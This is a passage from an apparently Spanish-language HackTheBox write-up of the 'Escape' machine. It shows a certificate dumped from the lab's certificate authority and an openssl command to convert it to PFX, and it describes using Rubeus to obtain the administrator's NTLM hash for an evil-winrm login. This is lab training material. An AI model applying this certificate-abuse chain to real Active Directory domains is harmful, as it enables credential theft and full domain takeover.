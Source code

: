 ```ruby
MDM0OTEzWjBTMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYG
c2VxdWVsMQ4wDAYDVQQDEwVVc2VyczEUMBIGA1UEAxMLUnlhbi5Db29wZXIwggEi
MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDSIiwrlQyOQyrMyHoiltwlHXyq
l8n4kr+fao5qBXgO+BxEon9ZLAYK45rO5qmder59kzqgGlT13YH3LyZoEj0qtYef
L/UEp/nVg3+mIOfSvntjDox1GPSt0UPpUNjAy1TjEVn5fqqkxP+ibE1g7AC6p/NZ
fcdY4E9otlo3Y8k1P7Zc10YgN1A99PE0Q0f4ApB4/SF8svDRBbOvdno2ptu4wNpw
/qFn9N+XnCiJWYq/bz/JKcC8L9RWjX3FL+K6mPAglmPzPzoIqPoCd0UE86iW95Kz
N7g1kAS0rUcqsyu83CNldFmQUUwusnsTlp//fBVDXbjo6NpD2SmiGHpWoxoJAgMB
AAGjggLCMIICvjA9BgkrBgEEAYI3FQcEMDAuBiYrBgEEAYI3FQiHq/N2hdymVof9
lTWDv8NZg4nKNYF338oIhp7sKQIBZAIBBTApBgNVHSUEIjAgBggrBgEFBQcDAgYI
KwYBBQUHAwQGCisGAQQBgjcKAwQwDgYDVR0PAQH/BAQDAgWgMDUGCSsGAQQBgjcV
CgQoMCYwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwQwDAYKKwYBBAGCNwoDBDBEBgkq
hkiG9w0BCQ8ENzA1MA4GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYF
Kw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFGVOmxmq36mdL4JDRVowemNHqJ/W
MB8GA1UdIwQYMBaAFGKfMqOg8Dgg1GDAzW3F+lEwXsMVMIHEBgNVHR8Egbwwgbkw
gbaggbOggbCGga1sZGFwOi8vL0NOPXNlcXVlbC1EQy1DQSxDTj1kYyxDTj1DRFAs
Q049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmln
dXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBvQYIKwYB
BQUHAQEEgbAwga0wgaoGCCsGAQUFBzAChoGdbGRhcDovLy9DTj1zZXF1ZWwtREMt
Q0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2Vz
LENOPUNvbmZpZ3VyYXRpb24sREM9c2VxdWVsLERDPWh0Yj9jQUNlcnRpZmljYXRl
P2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG
9w0BAQsFAAOCAQEAON/PsHxpJpc4H0RLJhv7/E66GIEeP7yxnQ3si2fUniJ7TD1f
gu/x5VHmTesCGh2h6zY5S7szGwzlZ+1LPWCx+un+Wna53NMH7A+7GLJWSdjWgZEt
1c/D7lEG9xa39UiM3+S+feLAhGBVgtNKff6cMtKhUlpQO+AVow21UiW5DIioEYSH
GDP1Gl0J34MxnPU78TDV0E46Xc1fXfiENiKTRRveaWAHVH8xqDR1q98yt9QaBCjU
hlLVoFeT3Ipg+9Zf22+mDvcSdP5vB+hdZUxlQgmPPzPcKnX+Xm8EU/17NpITkIR1
v23UVfEv3DAqZPrBuQD2bZ8qhrcbfFb1bCt71Q==
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Obtenemos la clave privada y el certificado que debemos copiarnos a un archivo para posteriormente convertirlo de .pem a .pfx usando este comando.

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](/assets/images/HTB/Escape-HackTheBox/13.webp)

Una vez convertido usaremos `rubeus.exe`, que debemos subir a la máquina junto al `certificado.pfx` para obtener el hash NTLM para poder conectarnos con evil-winrm como administrador.
